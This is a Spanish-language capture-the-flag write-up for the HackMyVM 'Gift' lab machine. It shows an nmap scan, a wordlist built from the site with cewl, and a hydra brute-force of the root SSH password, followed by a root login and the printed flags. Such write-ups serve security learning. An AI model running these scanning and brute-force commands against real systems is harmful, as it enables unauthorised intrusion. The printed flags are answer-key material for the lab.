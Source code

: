 ```yaml
---
icon: flag
---
```


# Gift HackMyVM (Easy - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-07 10:28 EDT
Nmap scan report for 192.168.28.14
Host is up (0.00068s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 2c:1b:36:27:e5:4c:52:7b:3e:10:94:41:39:ef:b2:95 (RSA)
|   256 93:c1:1e:32:24:0e:34:d9:02:0e:ff:c3:9c:59:9b:dd (ECDSA)
|_  256 81🆎36:ec:b1:2b:5c:d2:86:55:12:0c:51:00:27:d7 (ED25519)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:24:E6:9E (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.37 seconds
```

Vemos que hay una pagina web levantada si entramos dentro de la misma veremos lo siguiente:

```
Dont Overthink. Really, Its simple.
```

Vamos a probar fuerza bruta generando un diccionario de palabras de la web y despues probaremos con el unico usuario que sabemos que puede estar en el sevidor llamado `root` de la siguiente forma:

## Escalate Privileges

### Hydra

Vamos a crear antes el diccionario de contraseñas de la pagina web.

```shell
cewl http://<IP>/index.html > pass.txt
```

Ahora ejecutaremos lo siguiente:

```shell
hydra -l root -P pass.txt ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-07 10:46:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking ssh://192.168.28.14:22/
[22][ssh] host: 192.168.28.14   login: root   password: simple
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-07 10:46:10
```

Veremos que ha funcionado, por lo que ahora nos vamos a conectar por `SSH` de la siguiente forma:

### SSH

```shell
ssh root@<IP>
```

Metemos como contraseña `simple`.

Info:

```
The authenticity of host '192.168.28.14 (192.168.28.14)' can't be established.
ED25519 key fingerprint is SHA256:dXsAE5SaInFUaPinoxhcuNloPhb2/x2JhoGVdcF8Y6I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.28.14' (ED25519) to the list of known hosts.
root@192.168.28.14's password: 
IM AN SSH SERVER
gift:~# whoami
root
```

Con esto habremos accedido a la maquina y ya seremos el usuario `root` directamente, por lo que leeremos las `flags`.

> user.txt

```
HMV665sXzDS
```

> root.txt

```
HMVtyr543FG
```
